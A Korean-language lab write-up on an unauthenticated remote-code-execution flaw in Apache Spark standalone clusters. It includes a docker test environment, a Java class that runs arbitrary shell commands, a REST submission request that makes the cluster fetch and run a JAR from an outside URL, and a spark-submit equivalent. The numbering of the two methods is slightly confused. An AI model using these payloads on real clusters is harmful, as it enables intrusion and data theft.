

#Apache Spark 무단 엑세스 취약점 
아파치 스파크는 사용자가 관리 노드에 애플리케이션을 제출하고 이를 클러스터에 배포하여 실행할 수 있도록 지원하는 클러스터 컴퓨팅 시스템입니다. 
관리 노드에 ACL(접근 제어)이 활성화되어 있지 않으면 클러스터에서 임의의 코드를 실행할 수 있습니다.

## 취약한 환경

다음 명령을 실행하면 마스터와 슬레이브가 각각 하나씩 있는 standalone 모드의 Apache Spark 클러스터가 시작됩니다

```
docker compose up -d
```


환경이 시작되면 `http://your-ip:8080`을 방문하여 마스터의 관리자 페이지를 확인하고
`http://your-ip:8081`을 방문하여 슬레이브의 관리자 페이지를 확인합니다.

## exploit

이 취약점의 핵심은 권한이 없는 사용자가 악성코드를 관리 노드에 제출할 수 있다는 것입니다.

악성코드를 관리노느데 제출하는 방법은 두 가지가 있습니다:

1. REST API 사용
2. submit gateway 사용(7077포)

다음은 1번을 사용하는 가장 간단한 자바 코드입니다 

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```
JAR로 컴파일한 후 'https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar'과 같은 HTTP 또는 FTP에 넣습니다

다음은 2을 이용한 방법입니다.
stand alone 모드에서 마스터는 포트 6066에서 HTTP 서버를 시작하고, 이 서버로 REST API를 전송합니다.
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
여기서 `spark.jars`는 컴파일된 애플리케이션이고, mainClass는 실행할 클래스이며, appArgs는 애플리케이션에 전달된 매개변수입니다.

반환된 패키지에 제출아이디가 포함된 경우 `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`을 방문하여 실행 결과를 확인할 수 있습니다:

spark-submin하는 것은 마스터에서 이루어지며,
결과를 보는 것은 이 애플리케이션을 실행하는 슬레이브(기본적으로 포트 8081)에서 이루어집니다. 
실제로는 슬레이브는 두 개 이상 있을 수 있습니다

### 게이트웨이 사용하기

포트 6066에 액세스할 수 없거나 권한 제어가 있는 경우 마스터의 포트 7077을 사용하여 spark-submit을 할 수 있습니다.
이 방법은 아파치 스파크와 함께 제공되는 `bin/spark-submit` 스크립트를 사용하는 것입니다:
```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```
지정한 마스터 매개 변수가 rest 서버인 경우 이 스크립트는 먼저 rest API를 사용하여 앱을 제출하려고 시도하고, 
rest 서버가 아닌 것으로 확인되면 submit gateway를 사용하여 앱을 제출하는 것으로 다운그레이드합니다.

결과는 이전과 동일한 방식으로 확인합니다.
